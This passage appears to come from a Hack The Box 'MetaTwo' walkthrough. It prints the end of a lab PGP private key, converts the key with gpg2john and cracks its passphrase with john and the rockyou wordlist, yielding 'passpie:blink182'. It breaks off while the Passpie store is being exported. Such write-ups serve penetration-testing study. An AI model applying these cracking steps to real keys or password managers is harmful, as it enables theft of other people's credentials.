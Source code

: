 	RfcJUrnjPpDFgF6sXQJuNuPdowc36zjE7oIiD69ixGR5UjhvVy6yFlESuFzrwyeu
	TDl0UOR6wikHa7tF/pekX317ZcRbWGOVr3BXYiFPTuXYBiX4+VG1fM5j3DCIho20
	oFbEfVwnsTP6xxG2sJw48Fd+mKSMtYLDH004SoiSeQ8kTxNJeLxMiU8yaNX8Mwn4
	V9fOIdsfks7Bv8uJP/lnKcteZjqgBnXPN6ESGjG1cbVfDsmVacVYL6bD4zn6ZN/n
	WP4HAwKQfLVcyzeqrf8h02o0Q7OLrTXfDw4sd/a56XWRGGeGJgkRXzAqPQGWrsDC
	6/eahMAwMFbfkhyWXlifgtfdcQme2XSUCNWtF6RCEAbYm0nAtDNQYXNzcGllIChB
	dXRvLWdlbmVyYXRlZCBieSBQYXNzcGllKSA8cGFzc3BpZUBsb2NhbD6IkAQTEQgA
	OBYhBHxnhqdWG8hPUEhnHjh3dcNXRdIDBQJiuFfWAhsjBQsJCAcCBhUKCQgLAgQW
	AgMBAh4BAheAAAoJEDh3dcNXRdIDRFQA/3V6S3ad2W9c1fq62+X7TcuCaKWkDk4e
	qalFZ3bhSFVIAP4qI7yXjBXZU4+Rd+gZKp77UNFdqcCyhGl1GpAJyyERDZ0BXwRi
	uFfWEAQAhBp/xWPRH6n+PLXwJf0OL8mXGC6bh2gUeRO2mpFkFK4zXE5SE0znwn9J
	CBcYy2EePd5ueDYC9iN3H7BYlhAUaRvlU7732CY6Tbw1jbmGFLyIxS7jHJwd3dXT
	+PyrTxF+odQ6aSEhT4JZrCk5Ef7/7aGMH4UcXuiWrgTPFiDovicAAwUD/i6Q+sq+
	FZplPakkaWO7hBC8NdCWsBKIQcPqZoyoEY7m0mpuSn4Mm0wX1SgNrncUFEUR6pyV
	jqRBTGfPPjwLlaw5zfV+r7q+P/jTD09usYYFglqJj/Oi47UVT13ThYKyxKL0nn8G
	JiJHAWqExFeq8eD22pTIoueyrybCfRJxzlJV/gcDAsPttfCSRgia/1PrBxACO3+4
	VxHfI4p2KFuza9hwok3jrRS7D9CM51fK/XJkMehVoVyvetNXwXUotoEYeqoDZVEB
	J2h0nXerWPkNKRrrfYh4BBgRCAAgFiEEfGeGp1YbyE9QSGceOHd1w1dF0gMFAmK4
	V9YCGwwACgkQOHd1w1dF0gOm5gD9GUQfB+Jx/Fb7TARELr4XFObYZq7mq/NUEC+P
	o3KGdNgA/04lhPjdN3wrzjU3qmrLfo6KI+w2uXLaw+bIT1XZurDN
	=7Uo6
	-----END PGP PRIVATE KEY BLOCK-----
	```


## Root - Crack GPG Private Key
1. Convert private key to john format
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/gpg]
	└─# gpg2john priv | tee john_priv
	
	File priv
	Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::priv
	```
2. Crack it w/ `john` against `rockyou` wordlist
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/gpg]
	└─# john --wordlist=/usr/share/wordlists/rockyou.txt john_priv
	Using default input encoding: UTF-8
	Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
	Cost 1 (s2k-count) is 65011712 for all loaded hashes
	Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
	Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all lo
	aded hashes
	Will run 2 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	0g 0:00:00:02 0.00% (ETA: 2022-12-06 02:30) 0g/s 29.41p/s 29.41c/s 29.41C/s hello..elizabeth
	blink182         (Passpie)
	1g 0:00:00:05 DONE (2022-11-29 10:53) 0.1782g/s 29.59p/s 29.59c/s 29.59C/s blink182..sweetie
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed.
	```
	> Valid Credential
	> - passpie:blink182
	{: prompt-info}
3. Export credentials from `passpie` w/ `blink182` as the password
	```
	jnelson@meta2:~$ passpie export password
	Passphrase: blink182
	jnelson@meta2:~$ cat password